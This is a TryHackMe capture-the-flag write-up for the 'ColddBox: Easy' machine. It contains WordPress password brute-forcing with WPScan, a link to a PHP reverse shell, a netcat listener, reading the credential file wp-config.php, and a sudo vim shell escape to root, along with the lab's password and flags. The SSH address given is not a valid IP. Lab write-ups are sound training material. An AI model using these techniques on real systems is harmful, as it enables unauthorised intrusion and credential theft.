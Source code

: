# ColddBox-WriteUp-TryHackMe
***Abdelhay Ferqass***
**ColddBox: Easy**
*An easy level machine with multiple ways to escalate privileges. By Hixec.*

After running Nmap with the following command

`nmap -sC -sV -p- `

we get this:

`PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

ruuning ***Gobuster*** with this command :

`gobuster dir -u MACHINE_IP -w /usr/share/wordlists/FULL_PATH_TO_YOUR_WORDLIST`

will lead you into *`/wp-admin`*

let's run `WPScan` since it's a wordpress cms

`abdelhay@K4LI:/data/vpn$ wpscan --url http://MACHINE_IP/ -e u -P /usr/share/wordlists/rockyou.txt `


and just like this we got **c0ldd's password : 9876543210**

get a reverseshell in 

`https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php`

lunch a netcat listener with : 

`nc -nlvp 1234`

TCHA RAA!! we're www-data
establish your shell with 

`python -c 'import pty; pty.spawn("/bin/bash")'`

`export TERM=xterm`

let's check a very sensitive php file with :

`www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php`


let's use those creds for ssh connection

`abdelhay@K4ALI:/data/vpn$ ssh c0ldd@10.10.124.265 -p 4512
c0ldd@ColddBox-Easy:~$ cat user.txt 
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==`

lets run   `sudo -l`

and we got 

`   (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp`


u can just run 

`sudo /usr/bin/vim`

and wirte this in

`:!/bin/bash`

and Congrats!! we're root now.

`c0ldd@ColddBox-Easy:~$  sudo /usr/bin/vim`


`root@ColddBox-Easy:/root# cat root.txt`

`wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=`

`root@ColddBox-Easy:/root# `








